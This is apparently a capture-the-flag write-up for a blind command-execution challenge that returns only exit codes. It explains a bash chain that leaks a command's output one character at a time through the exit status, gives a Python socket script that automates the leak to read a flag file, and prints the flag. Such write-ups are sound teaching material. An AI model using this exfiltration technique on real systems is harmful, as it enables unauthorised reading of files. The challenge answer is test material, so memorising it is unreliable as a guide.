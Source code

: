 When we connect, if we try to enter anything, it sends
{number}..well this is awkward..

This reminded me of a TAMU ctf chall I did long ago, there you could send commands but you only got the exit codes. Typing stuff like "llgltltltl" gave an output of 127, which is the command not found exit code. I tried "ls", and this gave 0 - indicating that these were probably exit codes. The key was to somehow communicate information via exit codes and exit codes alone.

With a combination of bash commands, we can accomplish this.

Firstly, var1=$(command). Simple, just sets a variable to the output of this command.

Exit codes can be between 0 and 255. This is enough to communicate one byte at a time.

var2=$(echo $var1 | cut -c number) this will grab a certain character of var1 using the bash command cut, and store it in var2.

Finally, exit $(echo -n $var2 | od -An -tuC) - echo -n $var2 | od -An -tuC will grab the ascii value of the character that var2 represents, plocking exit before this means that the output of this command chain will become the argument for exit, communicating our character via the exit code.

I wrote a simple loop to automate this and get the full output of a command.
```python
import socket
import re
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('jh2i.com',50025))
def getcmdoutput(cmd):
    global s
    s.send(cmd.encode() + b'\n')
    output = s.recv(1024).decode()
    code = re.findall("(.*)... Well this is awkward...",output)[0]
    return int(code)
base = "cat this_is_where_the_flag_is_plz_dont_bruteforce/flag.txt"
output = ""
for i in range(60):
    command = "var1=$({});var2=$(echo $var1 | cut -c {});exit $(echo -n $var2 | od -An -tuC)"
    command = command.format(base,i + 1)
    exitcode = getcmdoutput(command)
    print(command)
    output += chr(exitcode)
    print(output)
```

#### Flag: flag{okay_well_this_is_even_more_awkward}
